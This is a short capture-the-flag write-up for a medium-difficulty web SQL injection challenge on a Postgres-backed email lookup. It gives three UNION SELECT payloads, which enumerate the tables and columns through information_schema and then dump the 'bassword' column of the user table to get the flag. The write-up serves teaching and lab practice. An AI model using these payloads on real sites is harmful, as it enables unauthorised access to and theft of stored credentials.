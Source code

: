 # Web: SQLi
Difficulty: Medium/Advanced

In this challenge, you're given a simple user lookup system, where you can input an email and get back a list of usernames. 
You are told that the database is using Postgres and that the website admin made creative table and column names. 

This endpoint is vulnerable to SQL injection. You can get the table names using the following injection (note there must be a space following the --):
' UNION SELECT table_name FROM information_schema.tables WHERE table_schema='public' AND table_type='BASE TABLE'; -- 

The table name is mango_core_users.

You can get the column names using the following query:
' UNION SELECT column_name from information_schema.columns WHERE table_name = 'mango_core_users'; -- 

The columns are: ['losername', 'id', 'email', 'bassword']

We are probably interested in the "bassword". 
' UNION SELECT bassword FROM mango_core_users; -- 

This gets us the flag. 